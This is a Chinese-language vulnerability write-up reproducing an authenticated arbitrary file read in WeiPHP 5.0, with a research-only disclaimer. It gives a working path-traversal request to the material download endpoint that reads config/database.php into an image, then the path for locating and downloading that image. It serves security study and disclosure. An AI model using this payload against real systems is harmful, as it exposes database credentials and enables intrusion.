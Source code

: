 # WeiPHP5.0 前台任意文件读取

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，这里复现一下 `WeiPHP5.0`的前台任意文件读取漏洞

## 漏洞影响

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

使用这个漏洞，需要先以普通用户身份登录系统，然后可以直接访问

```php
/index.php/material/Material/_download_imgage?media_id=1&picUrl=../config/database.php
```

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805573704-e16bcb34-cdbc-42f9-bff4-c3437f72fd12.png)

这样会将 `../config/database.php`的内容读取出来，写入图片中，但是不会返回路径

接下来我们访问如下路径

```php
/index.php/home/file/user_pics
```

这样可以看到一些图片

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805651126-489cff34-a945-4c72-b7c9-1968a09c8b4c.png)

访问该图片，是损坏的

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805728192-b2b08cea-c299-4714-912f-312819526b06.png)

下载下来，记事本查看内容

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1650805995699-87733775-ab40-432c-98f4-ebb18a464f8e.png)

## 总结

发现该文件读取漏洞本身是不难的，非常明显，难的是获取到其写入的文件名，并且能找到一个可以展示出来的页面。这虽然是一个前台漏洞，但实际上也是需要一个普通用户权限登录的，另外，通过这个洞，我还获取到了另外一个可能的漏洞，有可能可以获取到一个小 `0day`，之后再分享给大家。

## 参考链接

- https://blog.csdn.net/solitudi/article/details/11656749



`github` 链接：`https://github.com/N0puple/vulPOC`

